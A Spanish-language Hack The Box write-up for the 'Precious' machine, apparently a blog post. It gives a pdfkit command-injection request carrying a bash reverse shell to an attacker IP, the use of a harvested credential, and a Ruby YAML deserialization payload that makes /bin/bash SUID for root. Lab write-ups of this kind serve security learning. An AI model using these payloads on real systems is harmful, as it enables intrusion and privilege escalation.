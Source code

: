 ```yaml
---
title: Precious Writeup
author: miguel3023
date: 2022-11-27
categories: [Writeup, HTB]
tags: [Linux, CTF, Easy, CommandInjection, Sudoers, RCE]
image:
  path: ../../assets/img/commons/Precious/Precious.png
  width: 800
  height: 450 
---
```


En esta máquina veremos cómo se acontece un RCE en base a un apartado donde podemos subir archivos, inyectamos comandos para entrar en la máquina y abusamos del privilegio de sudoers para obtener sesión como root 

## Reconocimiento

Primeramente realizamos un escaneo con nmap para detectar los puertos abiertos

```
❯ nmap -p- --min-rate 5000 --open -v -n -Pn 10.129.77.238 -oG OpenPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 16:16 -05
Initiating SYN Stealth Scan at 16:16
Scanning 10.129.77.238 [65535 ports]
Discovered open port 80/tcp on 10.129.77.238
Discovered open port 22/tcp on 10.129.77.238
Completed SYN Stealth Scan at 16:16, 14.00s elapsed (65535 total ports)
Nmap scan report for 10.129.77.238
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
Con **whatweb** podemos ver qué tecnologías emplea la web que hay en el puerto 80. Vemos que hay un redirec, entonces incluimos el dominio al **/etc/hosts**

```
❯ whatweb http://10.129.77.238
http://10.129.77.238 [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.129.77.238], 
RedirectLocation[http://precious.htb/], Title[302 Found], nginx[1.18.0]

http://precious.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], 
IP[10.129.77.238], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], 
X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

Luego con nmap detectamos la versión y los servicios que están en los puertos que encontramos previamente abiertos

```
❯ nmap -sCV -p22,80 10.129.77.238 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 16:27 -05
Nmap scan report for 10.129.77.238
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Si nos vamos a la web, podremos ver un convertidor de web a PDF. Si ponemos un servidor con python podemos ver que nos captura lo que tenemos en local y lo convierte a PDF, sin embargo si interceptamos la petición con **BurpSuite** en la respuesta veremos "Generated by pdfkit v0.8.6"

![Burpsuite]({{ 'assets/img/commons/Precious/peticion.png' | relative_url }}){: .center-image }
_Petición por Burp_ 

## Intrusión

Si buscamos vulnerabilidades ante esa versión de **pdfkit** encontramos este [artículo](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) que nos dice cómo explotarla.

Si vemos en [MonkeyPentester](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) hay una forma de entablarnos una reverse shell con bash, sólo que en este caso le añadimos el **bash -c** para que nos lea el primer argumento y le hacemos la petición al localhost para que nos ejecute ese comando
```
localhost/?name=#{"%20`bash -c 'bash -i >& /dev/tcp/<tuip>/<puerto> 0>&1'`"}
```

Antes de hacer lo anterior debimos estar en escucha con **nc** y obtendremos la shell

```
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.77.238] 55796
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ 

```
## Privesc

Luego igualamos **TERM** a **xterm** para poder hacer control+L y nos limpie la pantalla


```
ruby@precious:/var/www/pdfapp$ export TERM=xterm
```
Si nos vamos al directorio de **Home** de Ruby podemos ver un directorio ".bundle" oculto al cual si entramos y visualizamos el archivo de configuración encontramos las credenciales de Henry


```
ruby@precious:~/.bundle$ ls
config
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI*******"
ruby@precious:~/.bundle$ 
```

Una vez dentro podremos visualizar la flag de user

```
ruby@precious:~/.bundle$ su henry 
Password: 
henry@precious:/home/ruby/.bundle$ whoami
henry
henry@precious:/home/ruby/.bundle$ cat /home/henry/user.txt 
6b76013c67d712c4d671314833926bc7
henry@precious:/home/ruby/.bundle$
```
Vemos que tenemos permisos de sudoers

```
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$
```
Visualizamos el **/opt/update_dependencies.rb**

```ruby 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
Es un script en Ruby y vemos que lee y ejecuta un archivo "dependencies.yml" el cual nosotros crearemos y meteremos un payload para escalar privilegios. Si buscamos por archivos yml payloads encontraremos un [artículo](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/) donde al final nos pone un repositorio en [github](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565). Tomamos el segundo payload y lo modificamos para que nos dé permiso SUID en la **/bin/bash**


```ruby 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod u+s /bin/bash"
         method_id: :resolve
```
Le damos permisos de ejecución al "dependencies.yml"

```
henry@precious:~$ ls
dependencies.yml  user.txt
henry@precious:~$ chmod +x dependencies.yml
```
Luego ejecutamos con ruby el "/opt/update_dependencies.rb"


```
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```
Listo, veremos que el "/bin/bash" tendrá permiso SUID y simplemente ponemos "bash -p" para convertirnos en root y visualizar la flag de root 

```
henry@precious:~$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:~$ bash -p
bash-5.1# whoami
root
bash-5.1# cd /root/
bash-5.1# cat root.txt 
9ac4d14553215cb0537bf66d7232f157
bash-5.1#
```
